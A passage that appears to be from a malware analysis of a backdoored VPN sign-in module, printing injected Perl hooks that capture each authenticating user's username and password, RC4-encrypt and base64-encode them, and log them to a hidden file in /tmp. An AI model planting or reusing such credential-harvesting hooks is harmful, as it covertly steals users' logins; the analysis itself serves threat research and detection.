 The `*setPrompt` value above is replaced with the following Perl code:

```
# *setPrompt
$ds_g="";
sub setPrompt{
    eval{
        my $res=@_[1]."=".@_[2]."\n";
        $ds_g .= $res;
    };
    return DSAuthc::RealmSignin_setPrompt(@_);
}
$ds_e="";
```

The injected `setPrompt` routine captures the second and the third parameter, combines them into the format `<param2>=<param3>` and then assigns the produced string to a global variable named `$ds_g`. The next replacement, shown as follows, reveals that the second parameter is a username, and the third parameter is the password of a user trying to authenticate.

```
# *runSignin = *DSAuthc::RealmSignin_runSignin;
$ds_g1="";
sub encode_base64 ($;$)
{
    my $res = "";
    my $eol = $_[1];
    $eol = "\n" unless defined $eol;
    pos($_[0]) = 0;                          # ensure start at the beginning

    $res = join '', map( pack('u',$_)=~ /^.(\S*)/, ($_[0]=~/(.{1,45})/gs));

    $res =~ tr|` -_|AA-Za-z0-9+/|;               # `# help emacs
    # fix padding at the end
    my $padding = (3 - length($_[0]) % 3) % 3;
    $res =~ s/.{$padding}$/'=' x $padding/e if $padding;
    return $res;
}
sub runSignin{
    my $res=DSAuthc::RealmSignin_runSignin(@_);
    if(@_[1]->{status} != $DSAuth::Reject && 
        @_[1]->{status} != $DSAuth::Restart){
        if($ds_g ne ""){
            CORE::open(FH,">>/tmp/cmdmmap.kuwMW");
            my $dd=RC4("redacted",$ds_g);
            print FH encode_base64($dd)."\n";
            CORE::close(FH);
            $ds_g = ""; 
        }   
    }
    elsif(@_[1]->{status} == $DSAuth::Reject || 
            @_[1]->{status} == $DSAuth::Restart){
        $ds_g = ""; 
    }
    return $res;
}
$ds_e1="";
```

